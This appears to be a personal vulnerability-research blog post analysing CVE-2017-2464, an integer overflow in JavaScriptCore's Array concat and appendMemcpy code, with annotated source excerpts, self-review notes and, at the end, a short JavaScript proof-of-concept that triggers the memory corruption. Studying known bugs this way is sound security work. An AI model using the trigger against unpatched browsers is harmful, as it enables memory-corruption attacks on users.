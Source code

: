 ```yaml
---
layout: post
title: Notes on CVE-2017-2464
date: 2021-01-12
permalink: /:title/
description: "yooo"
tags: [vulnerability research]
share: true
comments: false
status: ongoing
---
```


This is an attempt I made somewhere around April in 2019 at finding an already known vulnerability.
More specifically, these are the notes I took while trying to come up with a clear idea of what
the problem was with the following piece of code.
Such attempt was made only being aware of the existence of said vulnerability (an integer overflow).

```
git rev-list -1 --before="2017-01-20 12:00" master
```

| Target | Javascript Core |
| commit |     956c6759d161d678125b0b9b8128e3fe6bd37c69 |
| file |     jsc/I dont remember |


<pre>
function concatSlowPath()
{
    "use strict";

    if (this == null)
        @throwTypeError("Array.prototype.concat requires that |this| not be null or undefined");

    var currentElement = @Object(this);

    var constructor; [[This block isn't too interesting, it is used to get the constructor of the object that called ".concat"::lsn]]
    if (@isArray(currentElement)) {
        constructor = currentElement.constructor;
        if (@isArrayConstructor(constructor) && @Array !== constructor) [[We have this check so that if some array from a different global object calls this map they don't get an array with the Array.prototype of the other global object::rsn]]
            constructor = @undefined;
        else if (@isObject(constructor)) {
            constructor = constructor.@speciesSymbol;
            if (constructor === null)
                constructor = @Array;
        }
    }

    var argCount = arguments.length;
    var result;
    if (constructor === @Array || constructor === @undefined) [[non-array objects can too call concat, so before proceeding any further, make sure 'result' is the of the same type as *this::rsn]]
        result = @newArrayWithSize(0);
    else
        result = new constructor(0);
    
    var resultIsArray = @isJSArray(result);[[This will be later used to decide which path to take::rsn]]

    var resultIndex = 0;
    var argIndex = 0;

    do {
        let spreadable = @isObject(currentElement) && currentElement.@isConcatSpreadableSymbol;[[This is the codepath of interest as the else clause explicitly checks for overflows::lsn]]
        if ((spreadable === @undefined && @isArray(currentElement)) || spreadable) { 
            let length = @toLength(currentElement.length);
            if (resultIsArray && @isJSArray(currentElement)) { [[Again, this kind of overflow can only be triggered with arrays::rsn]]
                @appendMemcpy(result, currentElement, resultIndex); [[appendMemcpy is probably safe, though it is called in the wrong way::lsn]]
                resultIndex += length;
            } else {
                if (length + resultIndex > @MAX_SAFE_INTEGER)
                    @throwTypeError("length exceeded the maximum safe integer");
                for (var i = 0; i < length; i++) {
                    if (i in currentElement)
                        @putByValDirect(result, resultIndex, currentElement[i]);[[For non-array objects that can be iterated upon, follow a slightly different road @putByValDirect(values, index, argument);::rsn]]
                    resultIndex++;
                }
            }
        } else {
            if (resultIndex >= @MAX_SAFE_INTEGER)
                @throwTypeError("length exceeded the maximum safe integer");
            @putByValDirect(result, resultIndex++, currentElement);
        }
        currentElement = arguments[argIndex];
    } while (argIndex++ < argCount);

    result.length = resultIndex; [[what if the vunlerability consists in increasing resultIndex::rsn]]
    return result;
}
</pre>

<pre>
bool JSArray::appendMemcpy(ExecState* exec, VM& vm, unsigned startIndex, JSC::JSArray* otherArray)
{
    auto scope = DECLARE_THROW_SCOPE(vm);

    if (!canFastCopy(vm, otherArray)) [[I can only copy in the fast way::lsn]]
        return false;

    // A memcpy is being called. In order to do the copy,
    // everything from type to size must be the same. In
    // order to figure out how much mem to allocate, and
    // how to use it, it is necessary to know how the object
    // is layed out first.
    IndexingType type = indexingType();
    IndexingType copyType = mergeIndexingTypeForCopying(otherArray->indexingType());

    if (type == ArrayWithUndecided && copyType != NonArray) { [[Depending on the type of the array to be copied, take a different path::lmn]]
        if (copyType == ArrayWithInt32)
            convertUndecidedToInt32(vm);
        else if (copyType == ArrayWithDouble)
            convertUndecidedToDouble(vm);
        else if (copyType == ArrayWithContiguous)
            convertUndecidedToContiguous(vm);
        else {
            ASSERT(copyType == ArrayWithUndecided);
            return true;
        }
    } else if (type != copyType)
        return false;

    unsigned otherLength = otherArray->length();
    unsigned newLength = startIndex + otherLength;
    if (newLength >= MIN_SPARSE_ARRAY_INDEX)
        return false;
 
    if (!ensureLength(vm, newLength)) { [[make sure the array is contiguous::rsn]]
        throwOutOfMemoryError(exec, scope);
        return false;
    }
    ASSERT(copyType == indexingType());

    if (type == ArrayWithDouble)
        memcpy(butterfly()->contiguousDouble().data() + startIndex, otherArray->butterfly()->contiguousDouble().data(), sizeof(JSValue) * otherLength);
    else
        memcpy(butterfly()->contiguous().data() + startIndex, otherArray->butterfly()->contiguous().data(), sizeof(JSValue) * otherLength);

    return true;
}
</pre>

```
Feedback:

 Both [?] were correct.
 
 -> Why did I not find the vulnerability ?

    the lack of context in jsc's codebase
    definitely made things harder. The
    main reason i did not know

    unsigned newLength = startIndex + otherLength

    is a vulnerable thing, because i didn't connect
    the memcpy call to the very short buffer. Had I
    thought about how memcpy interacts with the length
    of the buffer I should would have found it
```

// PoC
<pre>
var a = []; 
a.length = 0xffffff00;
var b = a.splice(0, 0x100000); // Undecided array

var args = [];
args.length = 4094;
args.fill(b);

var q = [];
q.length = 0x1000;
q.fill(7);

var c = a.splice(0, 0xfffef); //Shorter undecided array

args[4094] = c;
args[4095] = q;


b.concat.apply(b, args);
</pre>

[[***Changelog***<br>
• 12/01/2021: Sidenotes <br>
::rmn]]


